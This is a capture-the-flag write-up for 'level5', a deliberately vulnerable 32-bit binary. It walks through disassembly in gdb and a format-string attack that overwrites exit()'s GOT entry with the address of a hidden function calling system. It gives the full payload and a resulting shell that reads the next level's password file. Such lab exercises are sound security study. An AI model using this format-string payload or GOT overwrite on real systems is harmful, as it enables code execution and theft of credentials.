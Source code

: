 # Level5

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

## Testing the program

```bash
$ ./level5
salut
salut
```

## Learning more


```bash
info functions
All defined functions:

Non-debugging symbols:
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```

We have three functions : main, n and o. 

```bash
disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
```

There is a call to a function 'n'.

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

As we can see the function 'o' is noit being called. 


```bash
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

The 'o' function does a call to system. 


## Getting access to the .pass

We need to use printf() function into calling the o() function using a format string attack.
The issue is that both the n() and o() function never return, they exit directly. 
Therefore we cannot overwriet n() so that the return calls o(). 

Instead we can replace the address of exit in the GOT with the address of o(). 

The GOT (Global Offset Table) is a table of addresses which contains the addresses of the shared library functions (printf, exit, fgets, ...). 

Also GOT is writable and whenever the function exit() is called (GOT entry of the function is looked up first) the program will jump to that address.
So if we replace the address of exit() in the GOT with the address of o() (with format strings), whenever that function will be called, the program will go to the modified GOT entry.

1. First : find the address of exit() and of o() in the GOT. 

```bash
$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

```bash
info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
(gdb) 
```

Now we have the address of exit(): 0x8049838 and the address of o(): 0x080484a4.

2. Print the memory until we reach exit

Like in previous levels, we are going to use printf to find where is the exit()

```bash
$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
$ cat /tmp/exploit - | ./level5
cat /tmp/exploit - | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

The address of exit() is at the 4th position (61616161).

3. Final Payload

```plaintext
    • The address of exit(), 0x8049838 converted to little endian --> \x38\x98\x04\x08 
    • o() address in decimal : 0x080484a4 --> 134513828 - 4 bytes (because of the exit address) = 134513824
    • %4n : since the address of exit is at the 4th position
```

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
$ cat /tmp/exploit - | ./level5
        512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```